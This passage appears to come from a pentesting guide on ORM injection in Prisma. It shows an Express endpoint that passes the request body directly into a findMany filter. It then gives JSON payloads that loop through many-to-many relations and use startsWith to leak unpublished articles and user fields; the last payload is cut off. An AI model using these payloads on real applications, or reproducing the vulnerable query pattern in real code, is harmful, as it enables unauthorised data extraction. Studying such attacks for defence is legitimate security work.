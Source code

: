 {% hint style="danger" %}
Using operations like `startsWith` it's possible to leak information.&#x20;
{% endhint %}

* **Many-to-many relational filtering bypassing filtering:**&#x20;

```javascript
app.post('/articles', async (req, res) => {
    try {
        const query = req.body.query;
        query.published = true;
        const posts = await prisma.article.findMany({ where: query })
        res.json(posts);
    } catch (error) {
        res.json([]);
    }
});
```

It's possible to leak not published articles by lopping back to the many-to-many relationships between `Category` -\[\*..\*]-> `Article`:

```json
{
    "query": {
        "categories": {
            "some": {
                "articles": {
                    "some": {
                        "published": false,
                        "{articleFieldToLeak}": {
                            "startsWith": "{testStartsWith}"
                        }
                    }
                }
            }
        }
    }
}
```

It's also possible to leak all the users abusing some loop back many-to-many relationships:

```json
{
    "query": {
        "createdBy": {
            "departments": {
                "some": {
                    "employees": {
                        "some": {
                            "departments": {
                                "some": {
                                    "employees": {
                                        "some": {
                                            "departments": {
                                                "some": {
                                                    "employees": {
                                                        "some": {
                                                            "{fieldToLeak}": {
                                                                "startsWith": "{testStartsWith}"
                                                            }
                                                        }
                                                    }
                                                }
                                            }
                                        }
```